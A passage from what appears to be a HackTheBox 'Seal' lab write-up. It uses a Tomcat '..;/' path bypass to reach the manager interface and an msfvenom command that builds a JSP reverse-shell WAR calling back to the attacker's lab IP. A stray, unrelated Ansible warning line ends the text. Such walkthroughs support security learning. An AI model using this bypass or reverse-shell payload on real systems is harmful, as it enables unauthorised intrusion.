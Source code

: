 Looking on the status page I notice the List Applications link goes to here:

```text
https://seal.htb/manager/html/list
```

So I tried using the described exploit to get to this path:

```text
https://seal.htb/manager/status/..;/html
```

It worked and we are in the Application Manager section:

![seal-list](/assets/images/2021-10-09-18-05-15.png)

## MSFVenom

This is just like [Jerry](https://www.hackthebox.eu/home/machines/profile/144), another HackTheBox machine I did a while ago. We can create a war file using MSFVenom and upload it to create a reverse shell:

```sh
┌──(root💀kali)-[~/htb/seal]
└─# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.251 lport=1337 -f war > pencer.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'